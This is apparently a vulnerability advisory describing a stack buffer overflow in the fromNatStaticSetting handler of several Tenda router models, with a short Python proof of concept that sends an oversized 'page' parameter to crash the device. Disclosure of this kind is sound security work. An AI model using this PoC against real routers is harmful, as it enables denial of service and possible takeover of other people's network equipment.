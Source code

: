 # Tenda Router Vulnerability on fromNatStaticSetting function

This vulnerability lies in the `/goform/fromNatStaticSetting` page which influences the lastest version of Tenda Router F1202,FH1202. (The latest version is [F1202V1.0BR_V1.2.0.20(408)](https://www.tenda.com.cn/download/detail-2671.html))[FH1202_V1.2.0.19_EN](https://www.tendacn.com/us/download/detail-2693.html) and influence AC10V1.0,AC1206,ACV7V1.0,AC5V1.0,AC9V3.0

## Vulnerability Description

There is a **stack-based buffer overflow** vulnerability in function `page`.

In function `fromNatStaticSetting` it reads 1 user provided parameters `page` into `v3`, and the variable is passed into function `sprintf` without any length check, which may overflow the stack-based buffer `v6`.

![Vulnerability Function](./vuln.png)

So by requesting the page `/goform/fromNatStaticSetting`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/fromNatStaticSetting?"
url += "page=" + "s" * 0x200


response = requests.get(url)
```

## Timeline

* 2022-06-29: Report to CVE & CNVD;


## Acknowledge